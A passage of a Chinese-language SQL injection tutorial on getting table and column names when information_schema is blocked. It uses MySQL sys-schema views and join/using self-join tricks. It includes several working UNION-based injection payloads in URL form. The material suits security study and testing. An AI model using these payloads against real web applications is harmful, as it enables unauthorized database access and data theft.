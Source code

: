 ​		查询表的统计信息，其中还包括InnoDB缓冲池统计信息，默认情况下按照增删改查操作的总表I/O延迟时间（执行时间，即也可以理解为是存在最多表I/O争用的表）降序排序，数据来源：

`performance_schema.table_io_waits_summary_by_table`
`sys.x$ps_schema_table_statistics_io`
`sys.x$innodb_buffer_stats_by_table`



> **类似的表还有 mysql.innodb_table_stats、mysql_innodb_table_index都存放有库名和表名**
>
> 这俩表对权限的要求相对较小

> **在mysql系统库也有两个表中包含部分表名**
> innodb_index_stats
> innodb_table_stats

​		上面的方法的确可以获取数据库中表名信息了，但是并没有找到类似于information_schema中COLUMNS的视图，也就是说我们并不能获取数据？

​		接下来看看无列名注入吧。







### 无列名注入

​		利用`join … using(xx)`注列名

​		通过系统关键词`join`可建立两个表之间的内连接。通过对想要查询列名所在的表与其自身内连接，会由于冗余的原因(相同列名存在)，而发生错误。并且报错信息会存在重复的列名，可以使用 USING 表达式声明内连接（INNER JOIN）条件来避免报错

​		当information_schema被WAF后，我们可以在知道了表名后通过无列名注入技巧获取字段值



如下，使用sql语句 `select 1，2，3 union select * from 表名`

```
# schema_auto_increment_columns

?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_auto_increment_columns where table_schema=database()--+
```

```
# schema_table_statistics_with_buffer

?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```

```
# 获取第一列的列名

?id=-1' union all select*from (select * from users as a join users b)c--+
```

```
# 获取次列及后续列名

?id=-1' union all select*from (select * from users as a join users b using(id,username))c--+
```

